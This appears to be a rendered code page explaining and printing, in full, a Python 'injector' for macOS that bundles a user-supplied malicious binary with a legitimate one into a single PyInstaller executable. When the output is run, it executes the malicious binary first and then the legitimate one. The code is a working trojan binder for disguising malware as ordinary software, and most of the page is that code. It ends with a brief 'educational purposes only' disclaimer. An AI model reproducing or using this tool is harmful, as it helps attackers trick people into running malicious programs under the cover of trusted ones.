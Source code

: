 # Detailed Explanation of the Injector Code

This code creates a binary injector tool that combines two executables: a potentially malicious one and a legitimate one. The tool generates a new executable that runs both binaries when executed. Here's a breakdown of the main components and their functions:

1. Import necessary modules:
   - os: for file and path operations
   - subprocess: for running system commands
   - shutil: for high-level file operations

2. create_inject_script function:
   - Creates a Python script that will be compiled into the final executable
   - This script contains logic to run both the malicious and legitimate binaries

3. main function:
   - Handles the main logic of the program
   - Prompts user for input (paths to malicious and legitimate binaries)
   - Generates the injection script
   - Uses PyInstaller to create the final executable
   - Performs cleanup operations

4. Styling and user interface:
   - Uses ANSI escape codes for colored output
   - Displays a stylized header

Now, here's the fully commented code in English:

```python
import os
import subprocess
import shutil

def create_inject_script(mal_bin, legit_bin):
    """
    Create a Python script that will be injected into the final executable.
    This script runs both the malicious and legitimate binaries.

    Args:
    mal_bin (str): Path to the malicious binary
    legit_bin (str): Path to the legitimate binary

    Returns:
    bool: True if the script was created successfully
    """
    # Content of the script to be injected
    script_content = f"""
import os
import sys

def run_malicious():
    # Full path to the malicious binary
    malicious_path = os.path.join(os.path.dirname(os.path.realpath(__file__)), '{os.path.basename(mal_bin)}')
    os.system(f"chmod +x {{malicious_path}}") # Make the file executable
    os.system(malicious_path) # Execute the malicious binary

def run_legitimate():
    # Full path to the legitimate binary
    legitimate_path = os.path.join(os.path.dirname(os.path.realpath(__file__)), '{os.path.basename(legit_bin)}')
    os.system(f"chmod +x {{legitimate_path}}") # Make the file executable
    os.system(legitimate_path) # Execute the legitimate binary

if __name__ == '__main__':
    run_malicious()
    run_legitimate()
    """
    
    # Write the content to a file named 'inject_script.py'
    with open("inject_script.py", "w") as f:
        f.write(script_content)
    return True

def main():
    # Get the directory of the current script
    script_dir = os.path.dirname(os.path.abspath(__file__))
    
    # Display a stylized header with the modified name
    print("\033[38;2;255;69;172m" + r'''
 _________ ________ .__ .__                               
/   _____//  _____/ |  ||  |   ____   ____ _____    ____  
\_____  \/   \  ___|  ||  | _/ __ \_/ ___\\__  \  /    \ 
/        \    \_\  \  ||  |_\  ___/\  \___ / __ \|   |  \
/_______  /\______  /__||____/\___  >\___  >____  /___|  /
        \/        \/              \/     \/     \/     \/ 
        By @dgthegeek (macOS version)
    ''' + "\033[0m")

    # Prompt the user for binary paths
    mal_bin = input("Enter your \033[31mmalicious\033[0m binary path: ")
    legit_bin = input("Enter your \033[32mlegit\033[0m binary path: ")
    
    # Create the output filename
    output_name = os.path.splitext(os.path.basename(legit_bin))[0] + "-injected"
    
    # Create the injection script
    if not create_inject_script(mal_bin, legit_bin):
        print("Failed to generate inject script. Exiting.")
        return
    
    # Prepare arguments for PyInstaller
    pyinstaller_args = [
        'pyinstaller',
        '--onefile',
        '--windowed',
        f'--add-binary={mal_bin}:.',
        f'--add-binary={legit_bin}:.',
        f'--name={output_name}',
        'inject_script.py'
    ]
    
    # Run PyInstaller
    subprocess.run(pyinstaller_args, check=True)
    
    # Cleanup: remove the injection script
    os.remove("inject_script.py")
    
    # Cleanup: remove the .spec file
    spec_file = os.path.join(script_dir, f'{output_name}.spec')
    if os.path.exists(spec_file):
        os.remove(spec_file)
    
    # Cleanup: remove the build directory
    build_dir = os.path.join(script_dir, 'build')
    if os.path.exists(build_dir):
        shutil.rmtree(build_dir)
    
    # Move the output file and remove the dist directory
    output_path = os.path.join('dist', output_name)
    if os.path.exists(output_path):
        shutil.move(output_path, script_dir)
        shutil.rmtree('dist')
    
    # Display a success message
    print(f"\033[32mInjected binary generated and saved as:\033[0m \033[31m{output_name}\033[0m\n")

# Entry point of the script
if __name__ == "__main__":
    main()
```

This code creates a tool that:
1. Asks the user for paths to a malicious and a legitimate binary
2. Creates a Python script that can run both binaries
3. Uses PyInstaller to package this script along with both binaries into a single executable
4. Cleans up temporary files and directories created during the process

The resulting executable, when run, will execute both the malicious and legitimate binaries in sequence.

Remember, this tool is intended for educational purposes only and should be used only in controlled, authorized environments.